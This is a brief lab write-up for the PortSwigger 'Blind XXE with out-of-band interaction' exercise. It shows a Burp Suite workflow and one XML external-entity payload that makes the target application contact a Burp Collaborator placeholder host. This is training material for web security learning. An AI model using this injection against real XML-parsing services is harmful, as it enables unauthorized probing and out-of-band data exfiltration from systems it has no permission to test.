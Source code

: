 ## Lab Description: Blind XXE with out-of-band interaction

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/fd769977-c55e-4fe1-8af9-658445a282fc)

## Solution: 

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f666aea3-8ad8-43d0-9956-469633888dfc)

Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:
```
<!DOCTYPE stockCheck [<!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/ee28e96e-1846-47d8-9143-924f21f3f24b)

It will show "Invalid Product ID"

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/56c0ffa9-55d6-4e65-b31b-4cb8a14a295c)

Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result in our payload.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/32a85192-6fa1-4d07-b8b2-9497106607f4)

Lab Solved

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/3dcdc4d5-39bc-40f5-80bb-9492d146582f)

